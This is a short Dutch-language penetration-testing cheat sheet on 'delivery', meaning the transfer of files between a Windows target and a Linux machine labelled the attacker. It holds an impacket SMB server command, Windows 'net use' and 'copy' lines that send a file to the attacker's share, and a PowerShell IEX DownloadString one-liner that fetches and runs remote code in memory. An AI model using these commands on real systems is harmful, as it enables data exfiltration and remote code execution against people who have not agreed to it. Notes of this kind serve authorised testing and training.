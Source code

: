 ## Delivery

### Overzicht

Het overbrengen van bestanden en/of folders via een transfer systeem, waardoor het leveren van bestanden makkelijker wordt.

### Windows naar Linux

#### SMB

**1. Linux Opzet**

```
impacket-smbserver /<sharename> /<folder-to-user> -ip <attacker-ip> -u 'Guest' -p 'Password123!' --smb2support 
```

**2. Windows Opzet**

```
net use \\<attacker-ip>\<sharename> -Username 'Guest':'Password123!'
copy <filename.ext> \\<attacker-ip>\<sharename>\<filename.ext>
```

*Other ways of delivering*

```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://<ip>:<port>/<file.extension>');"
```

**3. Bestand**

Bestand zal zich bevinden in de <folder-to-use> -> attacker machine, waar dit was gedefinieerd in stap 1. 

Dit kan alleen via de shell van windows naar linux.

